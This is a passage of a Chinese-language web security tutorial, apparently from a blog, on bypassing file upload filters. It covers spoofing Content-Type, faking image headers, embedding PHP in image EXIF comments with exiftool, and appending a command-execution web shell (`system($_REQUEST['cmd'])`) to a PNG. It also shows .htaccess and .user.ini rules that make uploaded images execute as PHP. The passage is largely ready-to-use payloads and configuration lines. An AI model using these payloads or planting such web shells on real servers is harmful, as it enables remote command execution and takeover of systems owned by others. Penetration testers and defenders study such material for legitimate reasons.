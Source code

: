 1. 更改Content-Type请求头

```
image/png 、text/plain 、 application/octet-stream 

更多内容类型词表
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
```

2. 通过在文件开头添加**真实图像的字节来**绕过**文件头检查**（混淆_文件_命令）。

在图片的**元数据中引入 shell **：

```
exiftool -comment="<?php phpinfo(); ?>" nasa.png
```

![](https://img-blog.csdnimg.cn/img_convert/3a00505bcb1b1af0dceb96e28eb10410.png)
最后将nasa.png 重命名为nasa.php ，将其上传到应用程序，Web 服务器会将文件解释为 PHP 脚本，忽略原始 PNG 文件的所有合法数据，并简单地执行我们在文件注释部分中找到的 PHP 负载。
![](https://img-blog.csdnimg.cn/img_convert/02534538d386d5c1d9e1b14951d30057.png)
也可以**直接**在图像中引入有效载荷，用法和上一个一致

```
echo '<?php system($_REQUEST['cmd']); ?>' >> hh.png
```

![](https://img-blog.csdnimg.cn/img_convert/a19347c1b644152024d4761410812fe8.png)

## 特殊的扩展技巧

在得知中间件的情况下可以尝试利用中间件配置文件的特性尝试图片扩展限制

### **.htaccess特性**

.htaccess仅支持Apache，这个文件通常叫伪静态文件，是apache的配置文件，会涉及到网址脚本格式的解析规则，我们可以通过这个文件实现解析的自定义

```
<FilesMatch "jpg">//文件匹配到这个文件名
SetHandler application/x-httpd-php//将以php的文件类型格式执行
</FilesMatch>  
 
或者是这个
AddType application/x_httpd_php jpg
```

先上传.htacces文件后上传hh.jpg的图片马，访问hh.jpg，可以看见文件是以php格式执行
![](https://img-blog.csdnimg.cn/img_convert/a46696ce947e78199e83c5486b85d091.png)

### .user.ini**特性**

.user.ini只能用于Server API为FastCGI模式下，正常情况下apache不运行此模块

```
auto_prepend_file=hh.jpg  文件前插入
auto_append_file=hh.jpg   文件最后插入
```
